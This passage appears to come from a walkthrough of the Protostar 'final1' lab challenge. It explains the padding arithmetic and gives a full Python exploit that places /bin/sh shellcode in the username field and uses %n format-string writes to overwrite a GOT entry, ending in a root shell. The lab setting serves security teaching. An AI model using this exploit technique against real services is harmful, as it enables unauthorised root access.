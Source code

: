For the second padding, it is given by `0x10804 - firstpad - l`. We need to use `0x10804` rather than `0x804` since, we cannot unwrite characters to decrease the value that "%n" will write, and thus we must use the overflown value. Instead of `0x10804`, we can also use `((username >>  16)  |  0x10000)` to the same effect.

Putting it all together:
```python
import socket
import struct
import telnetlib

def waitForLine(s):
        while (True):
                c = s.recv(1)
                if (c == '$'):
                        return;

sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
sock.connect(("127.0.0.1",2994))

shellcode = "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80\x00"

name =  sock.getpeername()

l = len(shellcode) +  len("Login from  as [] with password [") + len(name[0] + ":" + str(name[1])) + 9
username = 0x804a220
got = 0x804a174

firstpad = (username & 0x000ffff) - l
secondpad = ((username >> 16) | 0x10000) - firstpad - l


waitForLine(sock)
sock.send("username " + shellcode + "\n")
waitForLine(sock)
sock.send("login " + "A"  + struct.pack("I", got) + struct.pack("I", got + 2) + "%" + str(firstpad) + "x" + "%25$n"  + "%" + str(secondpad) + "x" + "%26$n" +  "\n")

tn = telnetlib.Telnet()
tn.sock = sock
tn.interact()
```

Finally, we can use `telnetlib` to interact with the shell that we've created:
```bash
user@protostar:/tmp$ python final1-a.py 
 login failed
whoami
root
```